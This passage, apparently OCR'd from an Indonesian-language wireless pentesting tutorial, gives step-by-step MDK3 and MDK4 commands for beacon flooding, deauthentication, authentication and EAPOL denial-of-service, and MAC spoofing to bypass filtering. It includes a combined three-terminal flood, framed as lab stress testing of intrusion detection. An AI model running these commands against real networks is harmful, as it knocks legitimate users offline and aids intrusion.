     3. Contoh beacon flood: `sudo mdk3 wlan0mon b -c 6 -s 1000`.
       - `b`: Beacon mode, `-c 6`: Channel 6, `-s 1000`: 1000 beacon/second.
    4. Contoh deauth: `sudo mdk3 wlan0mon d -c 6 -b [AP_BSSID]`.
       - `d`: Deauth mode, `-b`: Blacklist target AP.
- **MDK4**:
  - **Platform**: Successor MDK3, actively maintained, lebih stabil dan feature-rich.
  - **Mode Serangan**:
    - `b`: Beacon flooding (dengan mode advanced: `-w n` untuk WPA, `-w o` untuk Open).
    - `a`: Authentication DoS (dengan `-m` untuk valid MAC, `-s` untuk speed control).
    - `d`: Deauthentication/Disassociation (dengan `-c` untuk client, `-E` untuk ESSID filtering).
    - `m`: Michael shutdown exploitation (TKIP MIC dengan `-t` target, `-j` jamming).
    - `p`: SSID probing (brute force hidden SSID atau probe request flood).
    - `e`: EAPOL start/logoff packet injection (DoS untuk 802.1X authentication).
  - **Langkah-langkah dengan MDK4**:
    1. Aktifkan monitor mode: `sudo airmon-ng start wlan0`.
    2. List mode available: `sudo mdk4 wlan0mon` (tanpa parameter, tampilkan help).
    3. Beacon flood advanced: `sudo mdk4 wlan0mon b -c 1,6,11 -w n -s 500`.
       - `-c 1,6,11`: Multiple channels, `-w n`: WPA/WPA2 beacons, `-s 500`: Speed.
    4. Deauth dengan ESSID filter: `sudo mdk4 wlan0mon d -c 6 -E "TargetSSID"`.
       - `-E`: Target specific ESSID, deauth hanya AP dengan SSID ini.
    5. Authentication flood intelligent: `sudo mdk4 wlan0mon a -a [AP_BSSID] -m -s 1000`.
       - `-m`: Menggunakan valid client MAC addresses untuk bypass MAC filtering.
    6. EAPOL attack: `sudo mdk4 wlan0mon e -t [AP_BSSID] -s [CLIENT_MAC]`.
       - `e`: EAPOL mode, `-t`: Target AP, `-s`: Source client MAC.
  - **Options Tambahan**:
    - `-h [MAC]`: Spoof source MAC address.
    - `-v [FILE]`: Verbose, save output ke file.
    - `-n`: Use interface untuk packet injection.
- **Kombinasi Attack dengan MDK4**:
  1. Terminal 1 - Beacon flood: `sudo mdk4 wlan0mon b -c 6 -s 1000`.
  2. Terminal 2 - Deauth flood: `sudo mdk4 wlan0mon d -c 6 -B [AP_BSSID]`.
     - `-B`: Blacklist file berisi target BSSID (satu per line).
  3. Terminal 3 - Authentication flood: `sudo mdk4 wlan0mon a -a [AP_BSSID] -s 500`.
- **Kelebihan**: 
  - MDK3: Simple, lightweight, banyak tutorial dan community support.
  - MDK4: Actively maintained, lebih stabil, advanced options (ESSID filtering, intelligent jamming), multi-channel support.
- **Kekurangan**: 
  - MDK3: Development stopped, bugs tidak di-fix, limited features.
  - MDK4: Learning curve untuk advanced options, dokumentasi kurang lengkap.
- **Contoh Penggunaan**: 
  - MDK3: Deauth attack sederhana ke AP "GuestWiFi" di lab untuk disconnect semua klien.
  - MDK4: Kombinasi beacon flood (1000 fake AP) dan deauth flood ke multiple target AP di lab untuk stress test WIDS detection capability.
